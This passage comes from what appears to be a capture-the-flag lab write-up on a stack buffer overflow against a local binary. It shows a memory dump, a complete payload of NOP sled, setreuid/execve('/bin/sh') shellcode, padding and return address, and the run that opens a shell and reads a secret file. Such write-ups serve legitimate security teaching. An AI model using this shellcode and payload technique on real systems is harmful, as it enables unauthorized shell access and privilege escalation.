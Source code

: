 ```sh
0x7fffffffe8e8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe8f8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe908: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe918: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe928: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe938: 0x90909090      0x90909090      0x90909090      0xff319090
0x7fffffffe948: 0x03eabf66      0x4858716a      0x050ffe89      0x48583b6a
0x7fffffffe958: 0xb849d231      0x69622f2f      0x68732f6e      0x08e8c149
0x7fffffffe968: 0x89485041      0x485752e7      0x050fe689      0x48583c6a
0x7fffffffe978: 0x050fff31      0x42424242      0x42424242      0x42424242
0x7fffffffe988: 0x41414141      0x00004141      0xffffea88      0x00007fff
0x7fffffffe998: 0x00000000      0x00000002      0x004005e0      0x00000000
0x7fffffffe9a8: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe9b8: 0xffffea88      0x00007fff      0x00040000      0x00000002
0x7fffffffe9c8: 0x004005ac      0x00000000      0x00000000      0x00000000
0x7fffffffe9d8: 0x794daa23      0x97320a39      0x00400450      0x00000000
0x7fffffffe9e8: 0xffffea80      0x00007fff      0x00000000      0x00000000
0x7fffffffe9f8: 0x00000000      0x00000000      0xa1edaa23      0x68cdf546
0x7fffffffea08: 0x2d49aa23      0x68cde5f1      0x00000000      0x00000000
0x7fffffffea18: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffea28: 0xffffeaa0      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffea38: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffea48: 0x00000000      0x00000000      0x00000000      0x00000000
```

Pick any address that's full of NOPs (\x90) e.g. `0x7f ff ff ff e8 f8`

in little edian format, our return address example would look like this `\xf8\xe8\xff\xff\xff\x7f`

### Final Payload

Let's recap, we now have:

1. the offset (169)
2. the pad (15)
3. the NOP sled (94)
4. our shellcode (54)
5. the return address that hits the start of our shellcode (6)

Payload = `'\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'`

### Capture the Flag

We take the Payload from above, and run it on the CLI against the `bufferoverflow-2` application like so:

```sh
[user1@ip-10-10-50-188 overflow-4]$  ./buffer-overflow-2 $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x18\xe9\xff\xff\xff\x7f'")
new word is doggo1fjqXHj;XH1I//bin/shAPHRWHj<XH1BBBBBBBBBBBB
sh-4.2$ id
uid=1003(user3) gid=1001(user1) groups=1001(user1)
sh-4.2$ cat secret.txt 
wowanothertime!!
```
